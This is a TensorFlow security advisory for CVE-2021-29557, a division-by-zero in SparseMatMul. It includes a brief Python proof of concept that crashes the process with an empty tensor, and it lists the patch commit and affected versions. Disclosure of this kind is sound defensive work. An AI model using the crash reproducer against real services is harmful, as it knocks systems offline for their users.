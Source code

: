 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-044.md
## TFSA-2021-044: Division by 0 in `SparseMatMul`

### CVE Number
CVE-2021-29557

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.SparseMatMul`:

```python
import tensorflow as tf

a = tf.constant([100.0, 100.0, 100.0, 100.0], shape=[2, 2], dtype=tf.float32)
b = tf.constant([], shape=[0, 2], dtype=tf.float32)

tf.raw_ops.SparseMatMul(
    a=a, b=b, transpose_a=True, transpose_b=True,
    a_is_sparse=True, b_is_sparse=True)
```

The division by 0 occurs deep in Eigen code because the `b` tensor is empty.

### Patches
We have patched the issue in GitHub commit
[7f283ff806b2031f407db64c4d3edcda8fb9f9f5](https://github.com/tensorflow/tensorflow/commit/7f283ff806b2031f407db64c4d3edcda8fb9f9f5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
